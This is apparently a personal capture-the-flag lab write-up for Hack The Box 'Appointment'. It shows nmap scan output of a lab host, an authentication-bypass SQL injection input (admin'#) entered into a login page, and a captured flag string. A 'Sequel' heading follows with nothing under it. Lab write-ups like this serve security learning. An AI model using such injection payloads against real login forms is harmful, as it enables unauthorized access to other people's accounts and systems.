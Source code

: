 # tier 0

# tier 1

## appointment

```
─# nmap -sC -sV -Pn 10.129.236.249
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 00:23 EDT
Nmap scan report for 10.129.236.249
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.78 seconds
```

as login page is ther so it must be sql injection.

by using admin'#
e3d0796d002a446c0e622226f42e9672

# Sequel
